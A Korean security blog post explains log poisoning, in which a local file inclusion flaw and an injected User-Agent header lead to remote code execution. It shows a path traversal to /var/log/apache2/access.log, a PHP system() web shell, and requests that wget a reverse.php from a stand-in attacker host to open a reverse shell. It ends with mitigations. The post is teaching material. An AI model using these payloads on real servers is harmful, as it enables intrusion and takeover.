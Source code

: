 ```yaml
---
layout: single
title: (Web-Vuln) Log Poisoning
categories: Web-vuln
tag: [log injection, RCE, LFI, log poisoning]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```

# test
# 해당 취약점은 무엇인가?
>log Poisoning은 웹 어플리케이션에서 발생하는 취약점으로, LFI 취약점이 존재하며, Log 파일을 열람이 가능할 때 발생하며, log injection과 LFI 취약점이 선행되어야 한다. 이를 통해 RCE 까지로 이어질 수 있는 취약점이다.

***

# 공격 앤드포인트 탐색
해당 취약점은 서버에 존재하는 로그파일에 사용자의 정보 및 입력값이 쓰여질 때 발생할 수 있으므로, LFI 취약점이 존재해야한다.
```
http://victim.com/lifendpoint?view=
```
위와 같이 특정 파일을 Include하는 기능이 존재 한다고 가정해보자.
View 파라미터에 LFI 취약점이 존재하고, apache2 서비스가 동작중일 경우 일반적으로 /var/log/apache2/access.log 로그파일에 접근할 수 있다.
access.log 파일의 경우 웹 서버에서 접근 로그파일로, 사용자의 User-Agent 헤더 정보가 기록된다.
이 떄 User-Agent 값을 악의적인 사용자가 임의로 변경하게되면 그 정보 혹은 결과값이 access.log 파일에 기록된다(log injection).
## LFI 취약점을 통한 Log 파일 열람 
해당 시스템에 Apachee2 서비스가 동작 중이라면 access.log가 존재한다.
```
http://victim.com/lifendpoint?view=../../../../var/log/apache2/access.log
```
위와 같이 LFI 취약점이 존재할 경우 경로이동을 통해 access.log 파일에 접근할 수 있다.
![그림1-1](/assets/image/log_poisoning/image.png)
해당 access.log 파일에는 사용자의 User-Agent 값이 담기게 된다.
이 떄 악의 적인 사용자가 User-Agent 에 악성 코드를 삽입할 수 있다.

만약 해당 타겟시스템의 서버측 언어가 PHP 로 동작할 경우
```<?php system($_GET['cmd']);?> ```와 같이 php의 시스템 명령이 가능한 코드를 삽입하게 되면, 서버에서 User-Agent 헤더를 해석하는 과정에서 php 코드로 인식하여 이를 실행하게 된다.
즉 ***<span style="color:red"> RCE 취약점 까지 이어질 수 있는 치명적인 취약점이라고 볼 수 있다. </span>*** 

즉, 공격자 PC에서 리버스 커넥션 기능을 하는 악성 코드를 생서 후 웹서버를 구동시켜놓고, 해당 User-Agent 헤더에 공격자 PC에서 악성코드를 가져와 실행 시키는 명령어를 실행실 수 있게 된다.

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=wget http://attacker/reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=php reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```
이를 통해 악성스크립트가 실행되며, 공격자 서버로의 Reverse Connection이 이루어지게된다.

# 대응방안
1. 로그 파일에 기록되는 이벤트 필터링을 통해, 정상적은 형식과 속성인지 검증 과정이 존재해야 한다.
2. 로그 파일을 암호화 하여, 외부에서의 데이터 변경 및 조작을 방지한다.
3. 로그 파일에 대한 접근 제어 및 권한부여를 통해 외부에서 데이터 변경 및 조작을 방지한다.
4. 실시간 모니터링을 통한 이상 징후를 탐지한다.
5. 정기적으로 로그파일에 대해 백업 및 무결성 검사를 실시한다.
6. 사용자 입력값에 대해 비정상적인 입력값이 들어오는지에 대한 입력값 검증이 필요하다.